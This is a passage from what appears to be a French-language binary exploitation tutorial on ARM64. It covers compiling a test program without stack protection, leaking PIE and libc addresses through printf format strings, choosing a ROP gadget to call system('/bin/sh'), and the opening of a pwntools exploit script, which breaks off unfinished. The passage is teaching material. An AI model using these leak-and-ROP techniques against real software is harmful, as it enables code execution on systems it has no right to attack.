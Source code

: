 ```c
}

```
Compiler **sans canary** :
```bash
clang -o rop rop.c -fno-stack-protector -Wno-format-security
```
### PIE et ASLR mais pas de canary

- Round 1:
- Fuite de PIE depuis la pile
- Abus de bof pour revenir à main
- Round 2:
- Fuite de libc depuis la pile
- ROP: ret2system

### Fuites de Printf

En plaçant un point d'arrêt avant d'appeler printf, il est possible de voir qu'il y a des adresses pour revenir au binaire dans la pile et aussi des adresses libc :

<figure><img src="../../../images/image (1215).png" alt="" width="563"><figcaption></figcaption></figure>

En essayant différents offsets, le **`%21$p`** peut fuir une adresse binaire (bypass PIE) et le **`%25$p`** peut fuir une adresse libc :

<figure><img src="../../../images/image (1223).png" alt="" width="440"><figcaption></figcaption></figure>

En soustrayant l'adresse libc fuitée de l'adresse de base de libc, il est possible de voir que l'**offset** de l'**adresse fuitée par rapport à la base est `0x49c40`.**

### offset x30

Voir l'exemple précédent car le bof est le même.

### Trouver des Gadgets

Comme dans l'exemple précédent, nous devons avoir dans **`x0`** l'adresse de la chaîne **`/bin/sh`** et appeler **`system`**.

En utilisant rooper, un autre gadget intéressant a été trouvé :
```
0x0000000000049c40: ldr x0, [sp, #0x78]; ldp x29, x30, [sp], #0xc0; ret;
```
Ce gadget chargera `x0` depuis **`$sp + 0x78`** puis chargera les adresses x29 et x30 depuis sp et sautera à x30. Ainsi, avec ce gadget, nous pouvons **contrôler le premier argument et ensuite sauter à system**.

### Exploit
```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")

def leak_printf(payload, is_main_addr=False):
p.sendlineafter(b">\n" ,payload)
response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
if is_main_addr:
response = response[:-4] + b"0000"
return int(response, 16)

def expl_bof(payload):
p.recv()
```